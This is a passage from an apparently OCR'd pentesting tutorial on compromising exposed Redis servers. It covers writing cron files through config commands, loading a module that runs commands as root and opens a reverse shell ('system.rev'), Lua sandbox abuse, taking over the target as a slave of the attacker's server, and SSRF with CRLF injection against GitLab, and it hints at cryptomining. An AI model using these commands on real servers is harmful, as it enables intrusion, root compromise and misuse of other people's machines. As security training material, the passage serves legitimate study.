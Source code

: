 | 1  | redis-cli -h 10.10.x.x config set dir /var/spool/cron/  |
|----|---------------------------------------------------------|

This method can also be used to earn bitcoin ：[yam](https://www.v2ex.com/t/286981#reply14)

Load Redis Module

Following the instructions from link below you can compile a redis module to execute arbitrary commands.

[GitHub - n0b0dyCN/RedisModules-ExecuteCommand: Tools, utilities and scripts to help you write redis modules!](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand)

Then you need some way to upload the compiled module Load the uploaded module at runtime with MODULE LOAD /path/to/mymodule.so List loaded modules to check it was correctly loaded: MODULE LIST Execute commands:

| 1 2 3 4 5 6  | 127.0.0.1:6379\> system.exec "id" "uid=0(root) gid=0(root) groups=0(root)\\n" 127.0.0.1:6379\> system.exec "whoami" "root\\n" 127.0.0.1:6379\> system.rev 127.0.0.1 9999 Unload the module whenever you want: MODULE UNLOAD mymodule  |
|--------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

LUA sandbox bypass

[Here](https://www.agarri.fr/blog/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html) you can see that Redis uses the command EVAL to execute Lua code sandboxed. In the linked post you can see how to abuse it using the dotfile function, but [apparently](https://stackoverflow.com/questions/43502696/redis-cli-code-execution-using-eval) this isn’t no longer possible. Anyway, if you can bypass the Lua sandbox you could execute arbitrary commas on the system. Also, from the same post you can see some options to cause DoS.

Master-Slave Module

The master redis all operations are automatically synchronized to the slave redis, which means that we can regard the vulnerability redis as a slave redis, connected to the master redis which our own controlled, then we can enter the command to our own redis.

| 1 2 3 4 5 6 7 8 9 10 11  | master redis : 10.10.y.y \#(Hacker's Server) slave redis : 10.10.x.x \#(Target Vulnerability Server)  \#A master-slave connection will be established from the slave redis and the master redis: redis-cli -h 10.1.0.52 -p 6379 slaveof 10.10.y.y 6379  \#Then you can login to the master redis to control the slave redis: redis-cli -h 10.10.y.y -p 6379 set mykey hello set mykey2 helloworld  |
|--------------------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

SSRF talking to Redis

If you can send clear text request to Redis, you can communicate with it as Redis will read line by line the request and just respond with errors to the lines it doesn’t understand:

| 1 2 3 4 5 6 7  | -ERR wrong number of arguments for 'get' command -ERR unknown command 'Host:' -ERR unknown command 'Accept:' -ERR unknown command 'Accept-Encoding:' -ERR unknown command 'Via:' -ERR unknown command 'Cache-Control:' -ERR unknown command 'Connection:'  |
|----------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

Therefore, if you find a SSRF vuln in a website and you can control some headers (maybe with a CRLF vuln) or POST parameters, you will be able to send arbitrary commands to Redis.

Example: Gitlab SSRF + CRLF to Shell

In Gitlab11.4.7 were discovered a SSRF vulnerability and a CRLF. The SSRF vulnerability was in the import project from URL functionality when creating a new project and allowed to access arbitrary IPs in the form 0:0:0:0:0:ffff:127.0.0.1 (this will access 127.0.0.1), and the CRLF vuln was exploited just adding %0D%0A characters to the URL.

Therefore, it was possible to abuse these vulnerabilities to talk to the Redis instance that manages queues from gitlab and abuse those queues to obtain code execution. The Redis queue abuse payload is:
